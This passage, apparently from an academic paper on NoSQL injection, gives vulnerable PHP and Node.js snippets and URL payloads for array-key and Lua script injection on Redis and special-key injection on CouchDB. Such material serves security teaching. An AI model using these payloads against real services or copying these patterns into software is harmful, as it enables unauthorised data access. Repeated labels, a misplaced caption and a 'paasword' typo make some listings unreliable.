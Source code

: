 \begin{lstlisting}[caption={Attack vector on Redis for query selector injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/expire?key[]=foo&key[]=1117542887
\end{lstlisting}


\subsection{Lua Script Injection}
\begin{lstlisting}[caption={Vulnerable PHP example for Lua script injection on Redis}, label={lst:PHPArrayInjection}]
$redis->eval("return redis.call('get', '$key')", 0);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vector on Redis for query selector injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/lua.php?key=')%20or%20redis.call('set'%2C%20'foo'%2C%20'bar')%20--
\end{lstlisting}

\section{CouchDB Document Store}

\subsection{Special Key Injection}

\begin{lstlisting}[caption={Vulnerable NodeJS example for special key injection on CouchDB}, label={lst:PHPArrayInjection}]
function checkUser(user, password, callback) {
  nano.use('users').get(user, (err, res)=> {
    callback(res.password === paasword);
  });
}

checkUser(req.query.user, req.query.password, handleResult);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vector on CouchDB for speical key injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/login?user=_all_docs
\end{lstlisting}

\subsection{Array Key Injection}

